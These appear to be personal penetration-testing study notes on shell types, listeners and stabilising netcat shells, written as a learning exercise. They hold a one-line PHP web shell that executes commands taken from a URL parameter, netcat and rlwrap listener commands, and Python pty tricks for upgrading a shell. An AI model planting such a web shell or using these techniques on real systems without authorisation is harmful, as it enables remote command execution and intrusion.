 
## Type of Shell

- Shell (Normal Shell)
- Reverse Shell (Target forced to execute code/task that connects back to your computer)
- Blind Shell (Target is forced to execute code to start a listener attached to a shell directly on the target) -- (Limited because of Firewall)


## **Type of Shell**

- Netcat                                          ---> [[Red Team/4 - Exploitation/Shell & Reverse Shell/2 - Listeners/• Netcat]]
- Socat                                            ---> [[• Socat (Encrypted)]]
- Multi/Handler (Metasploit)          ---> [[• Multi Handler]]
- Web Shell

	As PHP is still the most common server side scripting language, let's have a look at some simple code for this.
	
	In a very basic one line format:

	```
	<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
	```

	This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

	Let's see this in action:
	![](https://i.imgur.com/W19gHwL.png)

**Creating Shell**
- Link <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">Number 1</a>
- Link <a href="https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Number 2</a>


## Shell Stabilisation

Pressing Ctrl + C kills the whole thing. They are non-interactive, and often have strange formatting errors. This is due to netcat "shells" really being processes running _inside_ a terminal, rather than being bonafide terminals in their own right. Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it.  

- Technique 1 (Python) 

	The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

	1.  The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
	2.  Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
	3.  Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

	The full technique can be seen here:

	![](https://i.imgur.com/bQnFz1T.png)

	Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.  

- Technique 2 (rlwrap)

	rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, s_ome_ manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

	To use rlwrap, we invoke a slightly different listener:

	`rlwrap nc -lvnp <port>`  

	Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.  